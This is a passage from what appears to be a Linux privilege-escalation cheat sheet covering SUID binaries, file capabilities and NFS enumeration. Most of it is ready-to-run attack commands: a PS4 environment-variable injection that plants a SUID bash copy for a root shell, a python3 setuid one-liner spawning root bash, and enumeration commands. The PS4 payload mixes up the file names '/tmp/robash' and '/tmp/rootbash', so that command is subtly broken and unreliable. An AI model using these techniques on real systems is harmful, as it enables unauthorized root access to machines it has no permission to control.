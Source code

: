     ```
    ltrace /usr/local/bin/binary_name 2>&1
    ```
5.  Run the SUID file with bash debugging enabled and the PS4 variable assigned to our payload:

    ```
    env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/robash; chown root /tmp/rootbash; chmod +s /tmp/robash)' /usr/local/bin/binary_name
    ```
6.  Run the robash with the -p option to get a root shell:

    ```
    /tmp/robash -p
    rootbash-4.1# id
    uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) ...
    ```

## Capabilities

Enumerate capabilities in general with:

```bash
getcap -r / 2>/dev/null
```

### Capabilities Privilege Escalation

{% embed url="https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/" %}

Example with python3:

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

```
username@victim:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

## NFS

The NFS (Network File System) file system is a widely used distributed file system. The /etc/exports file is used to set up NFS shares. Remote users can access, create, and modify files, as well as mount shares. Even if they don't exist on the NFS server, new files inherit the remote user's and group's ids (as owner and group, respectively).

Show the export list for the NFS server:

```
showmount -e <target>
```

Nmap NSE script:

```
nmap –sV –script=nfs-showmount <target>
```
